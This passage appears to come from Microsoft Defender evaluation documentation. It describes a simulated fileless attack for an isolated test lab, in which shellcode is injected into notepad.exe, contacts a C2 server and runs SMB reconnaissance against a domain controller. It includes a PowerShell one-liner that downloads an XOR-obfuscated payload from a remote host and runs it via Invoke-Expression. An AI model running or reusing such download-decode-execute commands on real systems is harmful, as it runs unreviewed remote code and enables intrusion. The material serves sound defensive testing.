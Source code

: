 :::image type="content" source="/defender/media/eval-defender-investigate-respond/eval-defender-eval-investigate-respond-endpoints-tlg.png" alt-text="A diagram of the evaluation environment using the simulated enterprise Test Lab Guide." lightbox="/defender/media/eval-defender-investigate-respond/eval-defender-eval-investigate-respond-endpoints-tlg.png":::

You'll simulate a sophisticated attack that leverages advanced techniques to hide from detection. The attack enumerates opened Server Message Block (SMB) sessions on domain controllers and retrieves recent IP addresses of users' devices. This category of attacks usually doesn't include files dropped on the victim's device and they occur solely in memory. They "live off the land" by using existing system and administrative tools and inject their code into system processes to hide their execution. Such behavior allows them to evade detection and persist on the device.

In this simulation, our sample scenario starts with a PowerShell script. In the real world, a user might be tricked into running a script or the script might run from a remote connection to another computer from a previously infected device, which indicates that the attacker is attempting to move laterally in the network. Detection of these scripts can be difficult because administrators also often run scripts remotely to carry out various administrative activities.

:::image type="content" source="/defender/media/mtp/mtpdiydiagram.png" alt-text="A screenshot of the Fileless PowerShell attack with process injection and SMB reconnaissance attack." lightbox="/defender/media/mtp/mtpdiydiagram.png":::

During the simulation, the attack injects shellcode into a seemingly innocent process. The scenario requires the use of notepad.exe. We chose this process for the simulation, but attackers would more likely target a long-running system process, such as svchost.exe. The shellcode then goes on to contact the attacker's command-and-control (C2) server to receive instructions on how to proceed. The script attempts executing reconnaissance queries against the domain controller (DC). Reconnaissance allows an attacker to get information about recent user login information. Once attackers have this information, they can move laterally in the network to get to a specific sensitive account

> [!IMPORTANT]
> For optimum results, follow the attack simulation instructions as closely as possible.

### Run the isolated AD DS domain controller attack simulation

To run the attack scenario simulation:

1. Ensure that your pilot environment includes the isolated AD DS domain controller and Windows device.

2. Sign in to the test device with the test user account.

3. Open a Windows PowerShell window on the test device.

4. Copy the following simulation script:

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
   ;$xor = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');
   $base64String = (Invoke-WebRequest -URI "https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/MTP_Fileless_Recon.txt" -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```
